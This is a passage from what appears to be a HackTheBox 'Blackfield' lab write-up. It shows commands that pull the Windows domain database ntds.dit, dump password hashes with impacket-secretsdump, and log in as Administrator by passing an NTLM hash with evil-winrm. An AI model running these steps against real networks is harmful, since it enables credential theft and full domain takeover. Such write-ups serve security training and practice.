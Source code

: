 
```
download C:\windows\tasks\ntds.dit /home/blackninja23/CTF/HTB/Blackfield/ntds.dit
```
- let dump hashes using secretdump

```
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

![](/assets/img/HTB/easy/Blackfield/secretdump.png)
- let use the hash and try to login as Administrator by pass the hash

```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

![](/assets/img/HTB/easy/Blackfield/rooted.png)
